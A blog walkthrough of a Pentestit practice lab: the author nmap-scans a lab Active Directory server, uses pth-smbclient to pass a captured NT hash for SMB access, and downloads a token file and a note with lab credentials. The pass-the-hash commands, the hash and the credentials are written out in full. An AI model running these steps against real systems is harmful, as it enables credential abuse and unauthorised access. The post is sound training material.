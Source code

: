 ```yaml
---
layout: single
title: "Pentestit Lab v11 - AD Token (4/12)"
header:
  overlay_image: gds-banner.jpg
  caption: "[__Pentestit Lab__](https://lab.pentestit.ru/)"
---
```


In my previous post "[Pentestit Lab v11 - RDP Token (3/12)](https://jhalon.github.io/pentestit-lab-11-rdp-token/)", we footprinted the Office 2 subnet, utilized SSH tunneling to attain RDP access, enumerated and brute forced RDP username/passwords, utilized the MS16-032 Privilege Escalation Exploit, found a user password hash and found our third token. Today we will return back to the Main Office to utilize our newly found hash to compromise the AD Server, and the AD Token - which will include the following:

* Footprinting the AD Server
* Leveraging PTH (Pass the Hash) for SMB Authentication
* Finding the AD Token

## Footprinting the AD Server

If you recall back to my previous post, after we compromised the RDP Token we began to carry out some Post-Exploitation Intelligence Gathering and found a password hash for the user arm554. Now that we have a legitimate hash we can go ahead and attempt to go back and attack the AD server.

Looking at the [Network Map](https://jhalon.github.io/images/ptl-3.png) we see that the AD Server is located in the Main Office using the IP of __172.16.0.10__.

At this point I hope you didn't close out your OpenVPN connection that we brute forced during [Pentestit Lab v11 - Site Token](https://jhalon.github.io/pentestit-lab-11-site-token/). If you did, and forgot how to re-connect back to the Main Office, then I suggest you go back and read on how we accomplished that task.

Once you are connected back to the Main Office, let's fire up Nmap and scan the AD server to see if there are any open ports that might be of interest to us.

```console
root@kali:~/pentestit# nmap -A -sV -n 172.16.0.10

Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-17 22:08 CDT
Nmap scan report for 172.16.0.10
Host is up (0.46s latency).
Not shown: 983 filtered ports
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2017-07-01 04:23:36Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: Test.Lab, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: TESTLAB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: Test.Lab, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WIN-U9CSMSIDNP7.Test.Lab
| Not valid before: 2017-06-29T06:47:11
|_Not valid after:  2017-12-29T06:47:11
|_ssl-date: 2017-07-01T04:25:44+00:00; -16d22h45m39s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: WIN-U9CSMSIDNP7; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16d22h45m39s, deviation: 0s, median: -16d22h45m40s
|_nbstat: NetBIOS name: WIN-U9CSMSIDNP7, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:2f:9d:23 (Oracle VirtualBox virtual NIC)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-U9CSMSIDNP7
|   NetBIOS computer name: WIN-U9CSMSIDNP7\x00
|   Domain name: Test.Lab
|   Forest name: Test.Lab
|   FQDN: WIN-U9CSMSIDNP7.Test.Lab
|_  System time: 2017-06-30T21:25:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_smbv2-enabled: Server supports SMBv2 protocol

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   505.51 ms 10.255.0.1
2   505.54 ms 172.16.0.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 283.98 seconds
```

After reviewing the Nmap scan we that TCP/139 and TCP/445 are open, thus NetBIOS and [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) are currently open and accepting connections.

Now if we look toward the bottom of the scan we can see that Namp executed a smb script scan against the AD server, meaning that we are able to connect to the AD via SMB with user level authentication.

We already have the username/password for __arm554__ so let's attempt to connect to the AD Server using [smbclient](https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html) with the username arm554.

```console
root@kali:~/pentestit# smbclient -L 172.16.0.10 -U arm554
WARNING: The "syslog" option is deprecated
Enter arm554's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Unfortunately it seems we were able to connect, but the login failed - so maybe the password we had was bad?

## Leveraging PTH (Pass the Hash) for SMB Authentication

Judging by the nmap scan, this is a Windows 2012 R2 Sever and it currently supports SMBv2. Since we know that arm554 is a valid user, and we found his hash on the compromised RDP machine, what we can do is attempt something called [Pass the Hash](https://en.wikipedia.org/wiki/Pass_the_hash), which should allow us to authenticate to the AD machine remotely without knowing the legitimate user's password.

We can utilize this awesome tool called [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) to pass the hash via a smb client. If all goes well, we should be able to list the active shares on AD.

Let's utilize the following command to do just that...

```console
root@kali:~/pentestit# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
WARNING: The "syslog" option is deprecated
Domain=[TESTLAB] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	files           Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Connection to 172.16.0.10 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available
```

## Finding the AD Token

Awesome! So we were able to successfully list all the active shares on the AD Server via Pass the Hash! The share titled __files__ looks interesting, so let's go ahead and connect to it via SMB again and see what's inside.

```console
root@kali:~/pentestit# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 \\\\172.16.0.10\\files 6361DEA164EE8FE91FE7B117FBC9CA5E
WARNING: The "syslog" option is deprecated
Domain=[TESTLAB] OS=[] Server=[]
smb: \> ls
  .                                   D        0  Fri Jun 30 15:40:00 2017
  ..                                  D        0  Fri Jun 30 15:40:00 2017
  network_test.txt                    A      103  Fri Jun 30 15:43:19 2017
  token.txt                           A       14  Fri Jun 30 20:14:55 2017

		10395647 blocks of size 4096. 8167939 blocks available

smb: \>
```

Running `ls` via the smb client shoes us that there are two files in the __files__ share, a network test document, and the token!

Let's download those files to our computer so we can read them.

```console
smb: \> get network_test.txt
getting file \network_test.txt of size 103 as network_test.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> get token.txt 
getting file \token.txt of size 14 as token.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Now from out Kali machine, we can read both files - let's see what the __network\_test.txt__ files has.

```console
root@kali:~/pentestit# cat network_test.txt 
Hi, mate! Need to test ARP-table in DIR subnet.
I'll install intercepter admin:77_GrantedSuperAdmin_77
```

Awesome! We got a username and password for the DIR subnet, as well as a hint! ARP-table... hmm, what could it be used for? A well, we will just have to save this and find out later!

## Token (4/12)

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to compromise the AD sever via Pass the Hash!

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (5/12) - The Director Token!
